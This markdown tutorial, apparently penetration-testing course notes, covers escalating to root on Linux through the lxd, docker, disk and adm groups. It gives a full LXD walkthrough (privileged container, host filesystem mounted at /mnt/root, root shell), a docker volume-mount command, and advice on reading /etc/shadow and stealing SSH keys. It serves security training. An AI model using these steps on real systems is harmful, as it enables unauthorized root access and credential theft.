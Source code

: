 # Privileged Groups
## LXC / LXD
LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root. Let's confirm group membership and use these rights to escalate to root.

```bash
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```
Unzip the Alpine image.

```bash  
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```
Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```bash
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```
Import the local image.

```bash  
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```
Start a privileged container with the security.privileged set to true to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```bash
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.
```bash
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```
Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type cd /mnt/root/root. From here we can read sensitive files such as /etc/shadow and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```bash
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker
Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command docker run -v /root:/mnt -it ubuntu. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as /etc which could be used to retrieve the contents of the /etc/shadow file for offline password cracking or adding a privileged user.



## Disk
Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1, which is typically the main device used by the operating system. An attacker with these privileges can use debugfs to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

## ADM
Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.
```bash
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```